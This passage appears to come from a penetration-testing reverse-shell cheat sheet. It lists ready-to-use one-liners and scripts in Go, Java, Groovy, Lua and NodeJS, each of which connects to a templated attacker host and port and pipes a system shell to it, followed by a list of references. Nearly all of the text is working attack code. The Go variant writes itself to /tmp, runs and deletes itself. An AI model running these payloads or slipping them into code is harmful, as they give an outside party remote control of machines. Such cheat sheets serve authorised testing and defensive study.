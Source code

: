 ### Golang

```sh
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","{{< param "war.lhost" >}}:{{< param "war.lport" >}}");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/{{< param "war.lhost" >}}/{{< param "war.lport" >}};cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Groovy [^groovy-shell]

```groovy
String host="{{< param "war.lhost" >}}";
int port={{< param "war.lport" >}};
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

{{<note>}}
Java reverse shell also works for Groovy.
{{</note>}}

### Lua

```sh
lua -e "require('socket');require('os');t=socket.tcp();t:connect('{{< param "war.lhost" >}}','{{< param "war.lport" >}}');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### Lua Windows

```sh
lua5.1 -e 'local host, port = "{{< param "war.lhost" >}}", {{< param "war.lport" >}} local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```

### NodeJS

```js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect({{< param "war.lport" >}}, "{{< param "war.lhost" >}}", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application form crashing
})();
```


[^pentestmonkey]: “Reverse Shell Cheat Sheet | Pentestmonkey.” Pentestmonkey | Taking the Monkey Work out of Pentesting, http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet.
[^nc-openbsd]: “Nc.Openbsd.” Man Pages Archive - Manned.Org, https://manned.org/nc.openbsd/6f0a5cf9.
[^swisskyrepo-shells]: swisskyrepo. “PayloadsAllTheThings/Reverse Shell Cheatsheet.Md at Master · Swisskyrepo/PayloadsAllTheThings · GitHub.” GitHub, https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md.
[^groovy-shell]: Frohoff, Chris. “Pure Groovy/Java Reverse Shell .” Gist · GitHub, 262588213843476, https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76.
[^cert-pinning]: “Certificate and Public Key Pinning Control.” OWASP Foundation | Open Source Foundation for Application Security, https://owasp.org/www-community/controls/Certificate_and_Public_Key_Pinning.
[^openssl]: OpenSSL Foundation, Inc. “/Docs/Manmaster/Man1/Openssl.Html.” OpenSSL.Org, https://www.openssl.org/docs/manmaster/man1/openssl.html.
[^ncat]: “Ncat Users’ Guide.” Nmap: The Network Mapper - Free Security Scanner, https://nmap.org/ncat/guide/index.html.
[^terminal-shell-console]: “What Is the Exact Difference between a ‘Terminal’, a ‘Shell’, a ‘tty’ and a ‘Console’? .” Unix & Linux Stack Exchange, https://unix.stackexchange.com/a/4132/356054.
